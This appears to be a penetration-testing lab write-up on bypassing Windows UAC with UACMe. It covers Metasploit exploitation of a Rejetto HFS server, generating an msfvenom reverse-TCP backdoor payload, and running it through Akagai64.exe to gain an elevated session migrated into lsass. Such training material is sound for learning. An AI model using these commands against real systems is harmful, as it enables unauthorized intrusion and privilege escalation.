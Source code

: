 ```yaml
---
description: User account control
---
```


# 2 - Bypassing UAC with UACme

### **UAC (User Account Control)**

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrator group.
* A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt, whereas a privileged user will be prompted with a consent prompt.
* Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### **Bypassing UAC**

* **In order to successfully bypass UAC, we will need to have access to a user account that is part of the local administrator group on the Windows target system.**
* UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
* UAC has various integrity levels ranging from low to high, if the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting the user for confirmation.
* There are multiple tools and techniques that can be used to bypass UAC, however, the tool and technique used will depend on the version of Windows running on the target system.

### **Bypassing UAC With UACMe**

* UACMe is an open source, robust privilege escalation tool developed by @hfiref0x. It can be used to bypass Windows UAC by leveraging various techniques.
  * GitHub: [https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)
* The UACME GitHub repository contains a very well documented list of methods that can be used to bypass UAC on multiple versions of Windows ranging from Windows 7 to Windows 10.
* Allows attackers to execute malicious payloads on a Windows target with administrative/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
* The UACMe GitHub repository has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.

###

### **Practical Demonstration**

#### Gaining  a meterpreter session on the victim OS using Metasploit.

```bash
# we are leveraging the vuln from the victim web server running HFS http file server by rejetto, v2.3 .
# service postgresql start && msfconsole
setg RHOSTS $ip
search rejetto
use exploit/windows/http/rejetto_hfs_exec
# it sets the default 32bit payload, which is fine in this case.
options
set LHOST and LHOST  # everything is set by default in the lab.
# if the http file server was running on a subdirectory on the webserver we can specify it in the "set TARGETURL", but in this case it runs in the root directory.
exploit
# we get a meterpreter session.
```

#### Step 1

Perform basic enumeration and make sure that the user you're currently logged with is part of the administrator local group.

In our meterpreter session

```bash
sysinfo  # returns system information.
# we can see we have a 32bit "x86/window" meterpreter session.
# we can migrate to a 64bit process, lets use the explorer process.
pgrep explorer # searches for the process id for the explorer process.
migrate 2448
# our session is now a 64bit session.
getuid  # Return username currently logged.
getprivs # Returns privileges of the current user.
# lets open a shell session to verify the user is part of the local administrator group.
shell  #Open a shell on the target system.
net user  # Returns the list of users on the system.
net localgroup administrators #Returns the list of users part of the administrator local group.

```

#### Step 2

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

Generate a payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=$kali_ip LPORT=1234 -f exe > backdoor.exe`&#x20;

#### Step 3

Configure listener for the payload previously generated.

```bash
# we use the metasploit multi/hanadler module.
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $kali_ip
set LPORT 1234
run
```

#### Step 4

Transfer the payload and Akagai.exe to a Temp directory.

`upload backdoor.exe` - upload the payload to the target.

`upload /Akagai64.exe` - upload the Akagai binary.

We are going to be using the "Akagai" binary file to run our backdoor.exe payload in order to bypass UAC.

> .\Akagai64.exe \<keyNumber> \<pathToPayload>

We go back o the cmd prompt shell session `shell` .

`.\Akagai64.exe 23 C:\Temp\backdoor.exe` - Bypass UAC with Akagai.exe and get elevated privileges with same user.

We receive an elevated Meterpreter session on our multi/handler listener.

```bash
# in the elevated meterpreter session, we can verify our priv now.
sysinfo
getuid
getprivs  # we have more privileges now.
# but our session is 32bit (x86/window), we can migrate to a 64bit process or NT AUTHORITY process..
# lets migrate to the "lsas" process, you can select any one.
migrate 688  # we get a 64bit meterpreter session.
sysinfo
getuid # to verify.
```

